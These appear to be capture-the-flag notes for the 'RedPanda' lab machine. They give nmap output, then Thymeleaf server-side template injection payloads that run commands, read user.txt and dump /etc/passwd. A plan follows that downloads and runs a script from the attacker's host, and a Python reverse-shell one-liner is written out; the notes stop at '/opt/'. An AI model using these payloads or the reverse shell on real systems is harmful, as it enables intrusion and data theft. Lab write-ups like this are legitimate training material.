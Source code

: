 # RedPanda

## IP = 10.10.11.170

## Nmap

### Initial
```
# Nmap 7.92 scan initiated Fri Aug  5 05:36:07 2022 as: nmap -sC -sV -oN nmap/initial 10.10.11.170
Nmap scan report for 10.10.11.170
Host is up (0.079s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
8080/tcp open  http-proxy
|_http-title: Red Panda Search | Made with Spring Boot
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 
|     Content-Type: text/html;charset=UTF-8
|     Content-Language: en-US
|     Date: Fri, 05 Aug 2022 09:36:24 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en" dir="ltr">
|     <head>
|     <meta charset="utf-8">
|     <meta author="wooden_k">
|     <!--Codepen by khr2003: https://codepen.io/khr2003/pen/BGZdXw -->
|     <link rel="stylesheet" href="css/panda.css" type="text/css">
|     <link rel="stylesheet" href="css/main.css" type="text/css">
|     <title>Red Panda Search | Made with Spring Boot</title>
|     </head>
|     <body>
|     <div class='pande'>
|     <div class='ear left'></div>
|     <div class='ear right'></div>
|     <div class='whiskers left'>
|     <span></span>
|     <span></span>
|     <span></span>
|     </div>
|     <div class='whiskers right'>
|     <span></span>
|     <span></span>
|     <span></span>
|     </div>
|     <div class='face'>
|     <div class='eye
|   HTTPOptions: 
|     HTTP/1.1 200 
|     Allow: GET,HEAD,OPTIONS
|     Content-Length: 0
|     Date: Fri, 05 Aug 2022 09:36:24 GMT
|     Connection: close
|   RTSPRequest: 
|     HTTP/1.1 400 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 435
|     Date: Fri, 05 Aug 2022 09:36:24 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><title>HTTP Status 400 
|     Request</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 400 
|_    Request</h1></body></html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8080-TCP:V=7.92%I=7%D=8/5%Time=62ECE499%P=x86_64-pc-linux-gnu%r(Get
SF:Request,690,"HTTP/1\.1\x20200\x20\r\nContent-Type:\x20text/html;charset
SF:=UTF-8\r\nContent-Language:\x20en-US\r\nDate:\x20Fri,\x2005\x20Aug\x202
SF:022\x2009:36:24\x20GMT\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20html
SF:>\n<html\x20lang=\"en\"\x20dir=\"ltr\">\n\x20\x20<head>\n\x20\x20\x20\x
SF:20<meta\x20charset=\"utf-8\">\n\x20\x20\x20\x20<meta\x20author=\"wooden
SF:_k\">\n\x20\x20\x20\x20<!--Codepen\x20by\x20khr2003:\x20https://codepen
SF:\.io/khr2003/pen/BGZdXw\x20-->\n\x20\x20\x20\x20<link\x20rel=\"styleshe
SF:et\"\x20href=\"css/panda\.css\"\x20type=\"text/css\">\n\x20\x20\x20\x20
SF:<link\x20rel=\"stylesheet\"\x20href=\"css/main\.css\"\x20type=\"text/cs
SF:s\">\n\x20\x20\x20\x20<title>Red\x20Panda\x20Search\x20\|\x20Made\x20wi
SF:th\x20Spring\x20Boot</title>\n\x20\x20</head>\n\x20\x20<body>\n\n\x20\x
SF:20\x20\x20<div\x20class='pande'>\n\x20\x20\x20\x20\x20\x20<div\x20class
SF:='ear\x20left'></div>\n\x20\x20\x20\x20\x20\x20<div\x20class='ear\x20ri
SF:ght'></div>\n\x20\x20\x20\x20\x20\x20<div\x20class='whiskers\x20left'>\
SF:n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20<span></span>\n\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20<span></span>\n\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20<span></span>\n\x20\x20\x20\x20\x20\x20</div>\n\x20\x20\x20\x2
SF:0\x20\x20<div\x20class='whiskers\x20right'>\n\x20\x20\x20\x20\x20\x20\x
SF:20\x20<span></span>\n\x20\x20\x20\x20\x20\x20\x20\x20<span></span>\n\x2
SF:0\x20\x20\x20\x20\x20\x20\x20<span></span>\n\x20\x20\x20\x20\x20\x20</d
SF:iv>\n\x20\x20\x20\x20\x20\x20<div\x20class='face'>\n\x20\x20\x20\x20\x2
SF:0\x20\x20\x20<div\x20class='eye")%r(HTTPOptions,75,"HTTP/1\.1\x20200\x2
SF:0\r\nAllow:\x20GET,HEAD,OPTIONS\r\nContent-Length:\x200\r\nDate:\x20Fri
SF:,\x2005\x20Aug\x202022\x2009:36:24\x20GMT\r\nConnection:\x20close\r\n\r
SF:\n")%r(RTSPRequest,24E,"HTTP/1\.1\x20400\x20\r\nContent-Type:\x20text/h
SF:tml;charset=utf-8\r\nContent-Language:\x20en\r\nContent-Length:\x20435\
SF:r\nDate:\x20Fri,\x2005\x20Aug\x202022\x2009:36:24\x20GMT\r\nConnection:
SF:\x20close\r\n\r\n<!doctype\x20html><html\x20lang=\"en\"><head><title>HT
SF:TP\x20Status\x20400\x20\xe2\x80\x93\x20Bad\x20Request</title><style\x20
SF:type=\"text/css\">body\x20{font-family:Tahoma,Arial,sans-serif;}\x20h1,
SF:\x20h2,\x20h3,\x20b\x20{color:white;background-color:#525D76;}\x20h1\x2
SF:0{font-size:22px;}\x20h2\x20{font-size:16px;}\x20h3\x20{font-size:14px;
SF:}\x20p\x20{font-size:12px;}\x20a\x20{color:black;}\x20\.line\x20{height
SF::1px;background-color:#525D76;border:none;}</style></head><body><h1>HTT
SF:P\x20Status\x20400\x20\xe2\x80\x93\x20Bad\x20Request</h1></body></html>
SF:");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Aug  5 05:36:39 2022 -- 1 IP address (1 host up) scanned in 31.75 seconds

```

### STTI in the search
Template engine: Thymeleaf
Exploit: `name=*{new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("id").getInputStream()).next()}`

Get user.txt: `name=*{new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("cat ../../../../../../home/woodenk/user.txt").getInputStream()).next()}`
Dump with any charachter and with any size (in this case dump (/etc/passwd): `*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}`

https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/ssti-server-side-template-injection/README.md


The plan is:
1. Upload a revshell
	1.1. Setup a HTTP Server: python3 -m http.server
	1.2. Recover the revshell: `name=*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec("wget http://10.10.14.38:8000/rev.sh").getInputStream())}`
2. Make it executable: `name=*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec("chmod 777 rev.sh").getInputStream())}`
3. Run it: `name=*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec("./rev.sh").getInputStream())}`

### Revshell file
```bash

#!/bin/bash

python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.38",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'

```

### Interesting files
/opt/